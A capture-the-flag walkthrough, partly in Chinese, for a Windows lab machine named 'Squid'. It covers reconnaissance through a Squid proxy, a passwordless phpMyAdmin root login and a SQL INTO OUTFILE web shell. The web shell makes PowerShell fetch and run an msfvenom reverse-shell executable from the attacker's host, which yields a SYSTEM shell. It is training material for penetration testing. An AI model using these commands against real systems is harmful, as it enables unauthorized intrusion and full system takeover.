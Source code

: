 # Squid
![image](https://hackmd.io/_uploads/rk2UCxhnJx.png)

## Solution
### 1. Recon
#### 1.1 Nmap
```
┌──(chw㉿CHW)-[~]
└─$ nmap -sC -sV -T4 -p- 192.168.133.189
...
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-22T09:15:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 354.50 seconds
```
> http proxy, RPC
### 2. enum4linux & smbclient
```
┌──(chw㉿CHW)-[~]
└─$ enum4linux -a 192.168.133.189

┌──(chw㉿CHW)-[~]
└─$ smbclient -N -L \\\\192.168.133.189\\
session setup failed: NT_STATUS_ACCESS_DENIED

```
> 皆沒有可用資訊

### 3. http-proxy scanner
使用 [spose](https://github.com/aancw/spose) 掛上 proxy 再掃描一次
```
┌──(chw㉿CHW)-[~/Tools]
└─$ git clone https://github.com/aancw/spose.git

┌──(chw㉿CHW)-[~/Tools/spose_http-proxy-scanner]
└─$ python3 spose.py --proxy http://192.168.133.189:3128 --target 192.168.133.189
Scanning default common ports
Using proxy address http://192.168.133.189:3128
192.168.133.189:3306 seems OPEN
192.168.133.189:8080 seems OPEN
```
> 發現 3306 & 8080

### 3. Browser http-proxy
Browser 掛上題目 http-proxy\
![image](https://hackmd.io/_uploads/BJz0f-3h1l.png)

瀏覽 192.168.133.189:8080\
![image](https://hackmd.io/_uploads/Hk1FFW3nJl.png)
> Wampserver 3.2.3\
> ![image](https://hackmd.io/_uploads/HJ4_hb33yl.png)


### 4. Dirb with proxy
```
┌──(chw㉿CHW)-[~]
└─$ dirb http://192.168.133.189:8080/ -p 192.168.133.189:3128
```
> 其實也不用爆破，192.168.133.189:8080
> 有顯示 `phpinfo()` 與 `phpMyadmin`

### 5. phpMyadmin
http://192.168.133.189:8080/phpmyadmin/index.php\
![image](https://hackmd.io/_uploads/SJFkJGhhyx.png)
> admin:amdin (失敗)
> root:{無密碼} (成功 ?!)

瀏覽資料庫:
- user\
![image](https://hackmd.io/_uploads/H1xq1z321g.png)

目標： 寫 revershell 進資料庫\
從 phpinfo() 中可以得知路徑在 `C:\wamp`\
 ![image](https://hackmd.io/_uploads/SkvAWzn21e.png)

### 6. Reverse Shell
#### 6.1 建立 Reverse Shell file
```
┌──(chw㉿CHW)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.165 LPORT=8888 -f exe -o chw_windows.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: chw_windows.exe

┌──(chw㉿CHW)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
#### 6.2 Ｗindows 指令注入 mysql
```
SELECT "<?php system('powershell -c \"Invoke-WebRequest -Uri http://192.168.45.165/chw_windows.exe -OutFile C:\\windows\\temp\\rs.exe; Start-Process C:\\windows\\temp\\rs.exe\"'); ?>"
INTO OUTFILE "C:/wamp/www/rev.php"
```
![image](https://hackmd.io/_uploads/B1I7wG2n1g.png)\
(Kali)\
開啟監聽 port
```
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.45.165] from (UNKNOWN) [192.168.133.189] 50486
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>

```

瀏覽 http://192.168.133.189:8080/rev.php

### 7. 取得 reverse shell
```
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.45.165] from (UNKNOWN) [192.168.133.189] 50486
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>hostname
hostname
SQUID

C:\wamp\www>whoami
whoami
nt authority\system

```
>[!Note]
>最高權限: `nt authority\system` ?! \
>這應該不是正規解，還需要取得 User flag

### ✅ Get User Flag
> 在 `C:\`找到 User flag
### ✅ Get Root FLAG
> 在 `C:\Users\Administrator\Desktop`找到 Root flag
